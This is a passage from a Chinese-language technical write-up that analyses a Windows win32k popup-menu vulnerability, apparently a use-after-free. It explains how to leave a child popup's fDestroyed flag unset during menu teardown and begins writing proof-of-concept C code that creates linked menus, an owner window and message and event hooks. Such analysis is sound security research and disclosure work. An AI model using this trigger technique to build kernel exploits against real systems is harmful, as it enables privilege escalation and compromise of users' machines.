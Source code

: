 那么需要在适当时机当函数 `MNFreePopup` 调用 `MNFlushDestroyedPopups` 时使延迟释放链表中存在未置位成员标志位 `fDestroyed` 的弹出菜单对象。

实现思路是：在某个子菜单通过调用函数 `xxxMNOpenHierarchy` 实现弹出期间，其自身相关对象还未与父级菜单相互关联时，用户进程发起菜单终止或取消的操作，使当前已存在于延时释放对象链表中的所有弹出菜单对象的成员标志位 `fDestroyed` 在弹出菜单销毁处理过程中被置位，而尚未完成初始化的子弹出菜单由于还未完成与父级菜单的关联，因此其弹出菜单对象的成员标志位 `fDestroyed` 并不会被置位。

当新弹出的子菜单完成初始化时，菜单整体继而进入函数 `xxxMNEndMenuState` 中的菜单终止处理过程。在该函数执行期间，作为利用目标的子弹出菜单对象由于其成员标志位 `fDestroyed` 未被置位，因此并不会被销毁，并且成员标志位 `fDelayedFree` 还会被置零，使其各个成员域状态满足漏洞触发条件。

这需要通过模态上下文菜单的弹出终止与同步异步消息请求的相互配合来具体实现。

### <a class="reference-link" name="%E9%AA%8C%E8%AF%81%E4%BB%A3%E7%A0%81%E7%9A%84%E5%AE%9E%E7%8E%B0"></a>验证代码的实现

接下来根据思路实现具体的验证代码，用户进程中验证代码的大部分代码逻辑都在新创建的单独线程中执行。

在验证代码的主函数中通过 `CreateMenu` 等函数创建两个弹出式的菜单对象，并在添加菜单项时将两个菜单对象相互关联，使第二个成为第一个的子菜单。当不通过函数 `SetMenuInfo` 改变菜单对象的属性时，菜单对象默认为模态类型。

```
hMenuList[0] = CreateMenu();
hMenuList[1] = CreateMenu();
AppendMenuA(hMenuList[0], MF_MOUSESELECT | MF_POPUP, (UINT_PTR)hMenuList[1], "item");
AppendMenuA(hMenuList[1], MF_MOUSESELECT | MF_POPUP, (UINT_PTR)0, "item");
```

菜单的显示需要有用于承载的窗口作为菜单的拥有者窗口对象。注册并创建普通窗口类和窗口对象并将句柄存储在 `hWindowMain` 全局变量中：

```
WNDCLASSEXW wndClass = `{` 0 `}`;
wndClass.cbSize = sizeof(WNDCLASSEXW);
wndClass.lpfnWndProc    = xxMainWindowProc; // custom message procedure
wndClass.cbWndExtra     = 0;
wndClass.hInstance      = GetModuleHandleA(NULL);
wndClass.lpszMenuName   = NULL;
wndClass.lpszClassName  = L"WNDCLASSMAIN";
RegisterClassExW(&amp;wndClass);
hWindowMain = CreateWindowExW(WS_EX_LAYERED | WS_EX_TOOLWINDOW | WS_EX_TOPMOST,
    L"WNDCLASSMAIN",
    NULL,
    WS_VISIBLE,
    0,
    0,
    1,
    1,
    NULL,
    NULL,
    GetModuleHandleA(NULL),
    NULL);
```

将验证代码自定义的消息处理函数 `xxMainWindowProc` 的地址赋值给创建的拥有者窗口对象的消息处理函数成员域。该拥有者窗口对象同时将作为与弹出菜单关联的通知窗口对象。

设置类型为 `WH_CALLWNDPROC` 的自定义挂钩处理程序，并设置范围包括 `EVENT_SYSTEM_MENUPOPUPSTART` 的自定义事件通知处理程序。

```
SetWindowsHookExW(WH_CALLWNDPROC, xxWindowHookProc,
    GetModuleHandleA(NULL),
    GetCurrentThreadId());
SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART, EVENT_SYSTEM_MENUPOPUPSTART,
    GetModuleHandleA(NULL),
    xxWindowEventProc,
    GetCurrentProcessId(),
    GetCurrentThreadId(),
    0);
```
